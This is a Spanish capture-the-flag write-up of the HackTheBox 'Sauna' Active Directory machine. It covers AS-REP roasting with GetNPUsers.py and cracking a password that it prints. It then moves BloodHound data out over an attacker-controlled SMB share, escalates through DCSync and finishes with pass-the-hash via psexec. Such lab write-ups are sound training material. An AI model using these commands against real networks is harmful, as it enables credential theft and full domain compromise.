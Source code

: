 # Sauna HTB

Buenas a todos, hoy voy a estar resolviendo la maquina Sauna de HackTheBox, es una maquina Windows de dificultad facil, en ella vamos a tocar Directorio Activo.

![images/Untitled.png](images/Untitled.png)

# **ENUMERACIÓN CON NMAP**

Lo primero de todo como siempre será enumerar que puertos tiene abiertos la maquina, para ellos vamos a utilizar la herramienta "nmap" con la que haremos un escaneo exhaustivo de puertos.

Para hacer un "Fast Scan" de puertos, siempre suelo utilizar esta sintaxis:

`nmap -sS —min-rate 5000 -p- —open -n -Pn -vvv <IPMACHINE> -oN <FILENAME>` 

![images/Untitled%201.png](images/Untitled%201.png)

Yo lo exporto en formato Grep para extraer los puertos con la utilidad "extractPorts" del Youtuber/Streamer "S4vitaar".

Esta utilidad me copia los puertos en la clipboard. Os comparto el Script por aquí pero recordad dejar una estrellita en el Github de S4vitar: (solo tenéis que tener instalado xclip y pegar este código en la .bashrc o .zshrc)

[https://pastebin.com/tYpwpauW](https://pastebin.com/tYpwpauW) 

![images/Untitled%202.png](images/Untitled%202.png)

Ahora vamos a enumerar versiones y servicios de todos los puertos con Nmap:

`nmap -sC -sV -p<PUERTOS> <IPMACHINE> -oN <FILENAME>`

![images/Untitled%203.png](images/Untitled%203.png)

Vemos que nmap nos arroja un nombre de dominio llamado: EGOTISTICAL-BANK.LOCAL , vamos a añadirlo al /etc/hosts junto con sauna.htb

Después de enumerar un poco los puertos, no veo nada interesante en el puerto 445 (SAMBA) un puerto que siempre es muy importante de echarle un vistazo, pero no tenemos acceso para poder ver los recursos, así que voy a ir directamente al servicio web que corre en el puerto 80. 

![images/Untitled%204.png](images/Untitled%204.png)

Vemos en About Us que hay unos nombres de usuarios con los que podriamos crear posibles usuarios:

![images/Untitled%205.png](images/Untitled%205.png)

Con la utilidad GetNPUsers.py, podemos hacer un ataque ASP-RESp Roasting, intentararemos obtener algun hash:

`python3 GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -userfile users -format hashcat -outputfile hash -dc-ip 10.10.10.175`

![images/Untitled%206.png](images/Untitled%206.png)

Vamos a intentar crackear con john el hash:

![images/Untitled%207.png](images/Untitled%207.png)

Ya tenemos la contraseña del usuario `fsmith:Thestrokes23`

Vamos a intentar conectarnos al sistema con Evil-WinRM:

![images/Untitled%208.png](images/Untitled%208.png)

![images/Untitled%209.png](images/Untitled%209.png)

# **PRIV. ESCALATION ROOT**

Nos compartimos un servidor http con python con el comando :

`python3 -m http.server 80`

![images/Untitled%2010.png](images/Untitled%2010.png)

Pasamos el script de powershell `SharpHound.ps1` a la maquina y ejecutamos el comando :

`Invoke-BloodHound -CollectionMethod All`

![images/Untitled%2011.png](images/Untitled%2011.png)

Para que nos haga una recopilacion de todo el sistema y nos lo guarde en un .zip, que nos vamos a pasar a nuestra maquina, para ello compartimos una carpeta de nuestro sistema con la maquina:

`python3 smbserver.py share . -smb2support -username pwned -password password123`

![images/Untitled%2012.png](images/Untitled%2012.png)

Y en la maquina remota :

`net use \\IP\share /u:pwned password123`

De esta manera nos compartimos la carpeta actual y podemos copiar el .zip a nuestra maquina:

`copy <FILENAME.ZIP> \\IP\share`

![images/Untitled%2013.png](images/Untitled%2013.png)

Abrimos nuestro BloodHound y agregamos el .zip para ver de que forma podemos escalar privilegios:

Enumerando un poco encontramos que hay un usuario (SVC_LOANGMGR) con el que podríamos convertirnos en Domain Admins:

![images/Untitled%2014.png](images/Untitled%2014.png)

Vamos a enumerar un poco mas el sistema para ver si conseguimos convertirnos en ese usuario, voy a utilizar Invoke-winPEAS.ps1, me lo comparto de la misma forma que antes y ejecuto:

`Invoke-winPeas`

Y nos reporta unas credenciales de un usuario llamado svc_loanmanager: 

![images/Untitled%2015.png](images/Untitled%2015.png)

Vamos a intentar conectarnos a esa cuenta a traves de evil-winrm:

![images/Untitled%2016.png](images/Untitled%2016.png)

Si nos fijamos bien no hay ningun usuario llamado svc-loanmanager:

![images/Untitled%2017.png](images/Untitled%2017.png)

Vamos a intentar utilizar esas credenciales para el usuario que necesitamos svc_loanmgr:

![images/Untitled%2018.png](images/Untitled%2018.png)

Estamos dentro de la cuenta que necesitamos, ahora toca escalar privilegios tal y como nos muestra BloodHound:

![images/Untitled%2019.png](images/Untitled%2019.png)

Podemos realizar un ataque DCSync con el usuario SVC_LOANMGR, Para extraer credenciales del controlador de dominio sin ejecución de código en él podemos usar la herramienta secretsdump de impacket o con mimikatz como dice BloodHound:

![images/Untitled%2020.png](images/Untitled%2020.png)

Ya tenemos el hash del administrador del dominio, podemos usar la herramienta psexec de impacket para conectarnos a la maquina sin necesidad de saber su contraseña, solo con su hash es suficiente:

![images/Untitled%2021.png](images/Untitled%2021.png)

Espero que os haya gustado, a mi me ha encantado, las maquinas de Directorio Activo son muy divertidas de vulnerar. Hasta la próxima.